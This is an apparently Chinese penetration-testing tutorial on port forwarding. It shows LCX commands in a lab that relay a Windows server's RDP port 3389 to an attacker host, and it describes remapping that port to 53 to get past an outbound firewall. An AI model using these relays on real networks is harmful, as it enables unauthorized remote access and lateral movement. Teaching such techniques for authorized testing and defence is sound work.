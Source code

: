 ```yaml
---
title: "各种端口转发工具的使用方法"
date: 2019-07-23T10:40:37+08:00
draft: false
tags: ['portforward']
categories: ['渗透测试']
---
```


科普转发工具的用法



本文主要介绍几种内网中常用的端口转发以代理的几种姿势。阅读本文前请看到每个阶段的网络环境，对理解本文有重要帮助。

我们在这里用三台实验机

client ：172.16.1.1

attacker：172.16.2.18 172.16.1.144

server：172.16.2.8

我们的目的是从我们的client就可以连接上 win2008 的远程桌面。

## LCX

lcx.exe有两大功能

1. 端口转发 slave和listen成对使用
2. 端口映射 tran

### slave listen

server执行

```powershell
lcx.exe -s 172.16.2.18 5555 127.0.0.1 3389
```

这句话的意思是把本机的3389端口转发到172.16.2.18的5555端口

在attacker执行

```powershell
lcx.exe -l 5555 4444
```

这句是把本机5555接收到的数据转发到本机的4444端口

现在就可以在client上 mstsc 连接attacker的4444端口，或者直接在attacker中连接`127.0.0.1:4444`

整个数据的流向

client <-> 4444 attacker 5555 <->3389 server

### tran

如果server中有防火墙不允许3389出站，那么可以用tran将3389映射到防火墙允许出站的端口，比如53端口。
